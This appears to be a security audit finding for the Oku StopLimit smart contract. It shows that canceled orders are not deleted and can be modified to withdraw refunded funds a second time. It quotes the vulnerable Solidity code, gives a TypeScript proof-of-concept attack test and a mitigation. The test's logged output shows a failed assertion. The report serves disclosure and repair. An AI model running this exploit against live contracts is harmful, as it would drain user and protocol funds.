 Rare Amber Sawfish

High

# Canceled orders can be modified to drain protocol

### Summary

When orders are canceled, funds are returned. The problem is that canceled orders can still be modified to get excess funds
https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/StopLimit.sol#L294-L298
```solidity
   //ensure delta is valid
                require(_amountInDelta < order.amountIn, "invalid delta");

                //set new amountIn for accounting
                newAmountIn -= _amountInDelta;

                //check min order size for new amount
                MASTER.checkMinOrderSize(order.tokenIn, newAmountIn);

                //refund position partially
                order.tokenIn.safeTransfer(order.recipient, _amountInDelta);
```

### Root Cause

```orders[orderId]``` not deleted after cancellation.

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. Attacker creates order
2. cancels order
3. modify cancel order to get excess funds

### Impact

Protocol could get drained

### PoC

```ts
describe("Execute Stop-Limit Upkeep", () => {

    let orderId: BigInt
    const stopDelta = ethers.parseUnits("500", 8)//create limit order when price reaches stop
    const strikeDelta = ethers.parseUnits("100", 8)//close limit order when price reaches strike
    const strikeBips = 200
    //setup
    before(async () => {
        //steal money for s.Bob
        await stealMoney(s.wethWhale, await s.Bob.getAddress(), await s.WETH.getAddress(), s.wethAmount)
        //ADD FUNDS TO STOP_LIMIT_CONTRACT
        await stealMoney(s.wethWhale, await s.StopLimit.getAddress(), await s.WETH.getAddress(), s.wethAmount)
        //reset test oracle price
        await s.wethOracle.setPrice(s.initialEthPrice)
        await s.usdcOracle.setPrice(s.initialUsdcPrice)
        await s.uniOracle.setPrice(s.initialUniPrice)
        await s.arbOracle.setPrice(s.initialArbPrice)

    })

    it("Drain excess funds", async () => {
        const currentPrice = await s.Master.getExchangeRate(await s.WETH.getAddress(), await s.USDC.getAddress())
        await s.WETH.connect(s.Bob).approve(await s.StopLimit.getAddress(), s.wethAmount)
        await s.StopLimit.connect(s.Bob).createOrder(
            currentPrice - stopDelta,
            (currentPrice + stopDelta) + strikeDelta,
            (currentPrice - stopDelta) - strikeDelta,
            s.wethAmount,
            await s.WETH.getAddress(),
            await s.USDC.getAddress(),
            await s.Bob.getAddress(),
            strikeBips,
            5,//5 bips fee
            0,//no stop loss bips
            0,//no swap on fill bips
            false,//no swap on fill
            false,//no permit
            "0x"
        )

        ////VALIDATE
        const zeroAmount = ethers.parseEther("0")
        const balance = await s.WETH.balanceOf(await s.StopLimit.getAddress())
        expect(balance).to.eq(s.wethAmount + s.wethAmount, "WETH received")
        expect(await s.WETH.balanceOf(await s.Bob.getAddress())).to.eq(zeroAmount, "Incorrect")


        const filter = s.StopLimit.filters.OrderCreated
        const events = await s.StopLimit.queryFilter(filter, -1)
        const event = events[0].args
        orderId = (event[0])
        expect(orderId).to.not.eq(0, "First order Id")


        //ATTACK

        //CANCEL ORDER!!!!!!
        console.log(orderId.toString())
        await s.StopLimit.connect(s.Bob).cancelOrder(ethers.toBigInt(orderId.toString()));
        expect(await s.WETH.balanceOf(await s.Bob.getAddress())).to.eq(ethers.parseEther("1.65"), "Incorrect") //Attacker get original amount deposited


        const ogOrder = await s.StopLimit.orders(orderId.toString())
        const amountInDelta = s.wethAmount / 2n //Excess to be claimed


        ///////MODIFY ORDER
        await s.StopLimit.connect(s.Bob).modifyOrder(
            ethers.toBigInt(orderId.toString()),
            currentPrice - stopDelta,
            (currentPrice + stopDelta) + strikeDelta,
            (currentPrice - stopDelta) - strikeDelta,
            ethers.toBigInt(amountInDelta),
            ogOrder.tokenOut,
            ogOrder.recipient,
            ogOrder.takeProfitSlippage,
            ogOrder.stopSlippage,
            0,
            false,
            false,
            false,
            "0x"
        );
        expect(await s.WETH.balanceOf(await s.Bob.getAddress())).to.eq(s.wethAmount, "Incorrect") //Attacker balance increased
        /////ATTACK_DONE
    })
```
LOGS
```js

  1) Execute Stop-Limit Upkeep
       Drain excess funds:

      Incorrect
      + expected - actual

      -2475000000000000000
      +1650000000000000000
      
      at Context.<anonymous> (test/triggerV2/happyPath.ts:187:69)
```

### Mitigation

Delete data saved under orderId after cacelling/upkeeping/executing order